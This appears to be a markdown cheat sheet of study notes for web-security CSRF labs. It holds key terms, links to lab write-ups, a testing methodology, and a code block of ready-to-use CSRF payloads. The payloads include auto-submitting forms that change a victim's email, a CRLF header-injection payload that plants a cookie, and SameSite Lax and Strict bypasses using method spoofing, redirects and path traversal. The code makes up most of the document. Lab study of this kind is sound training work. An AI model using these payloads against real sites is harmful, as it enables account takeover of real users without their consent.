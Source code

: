 # CSRF

## Key Terms

```
- Engagment tools -> Generate CSRF PoC (Burp Professional)
- SameSite: 
	-> Lax (default depends browser) -> only GET
	-> Strict -> only same site requests
	-> None -> secure flag required (https)
	
- \r\n -> %0d %0a
- Method spoofing -> search engine, e.g> _method=POST , @method('POST'), method=POST etc
```

## Most important labs


- [CSRF bypassing SameSite=Strict restriction via redirect + path traversal + CSRF](CSRF-bypass-SameSite-Strict-via-redirect-path-traversal.md)

- [CSRF bypassing SameSite=Lax via method spoofing](CSRF-bypass-SameSite-Lax-via-method-spoofing.md)

- [CSRF via Header Injection in Duplicated Cookie (SameSite-Strict bypass via client-side redirect)](CSRF-via-Header-Injection-SameSite-Strict-client-side-redirect.md)


## Metodology

```bash
- Try switch POST to GET
- Remove csrf token
- Token not tied to account -> Try valid (our) csrf token
- Cookie ->
    > csrf token + username/email
    > try duplicate cookie %0d %0a + Header Injection
- Same cookie work in differents subdomains
- No same-site? -> after 2 mins same-site = lax
- Same-Site = strict? -> search redirect 
- Try remove Refered header
  ```

![CSRF-MAP-CASES](/04-Screenshots/CSRF-map.png)


#### Cheat Sheet

```js

// CSRF NO DEFENSES  / TRY WITH GET INSTEAD POST
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF TOKEN NO TIED COOKIE SESSION
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF + Header injection - csrf token tied to csrfKey
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF-KEY-MATCH>%3b%20SameSite=None" onerror="document.forms[0].submit()">
//
// SAME-SITE LAX (DEFAULT) + METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
//
// SAMESITE STRICT BYPASS VIA CLIENT-SIDE REDIRECT
<script>
    location="<IP>/post/comment/confirmation?postId=../../my-account/change-email?email=pwnd@pwned.com%26submit=1"
</script>
//
// CSRF where Referer validation depends on header being present (add this to normal csrf to remove Refered header)
<meta name="referrer" content="no-referrer">
//
// CSRF with broken Referer validation
Referrer-Policy: unsafe-url (http header)

<form class="login-form" name="change-email-form" action="https://<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
   history.pushState("", "", "/?0ad0008e0432189380d1444800d90040.web-security-academy.net/")
    document.forms[0].submit();
</script>

// METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

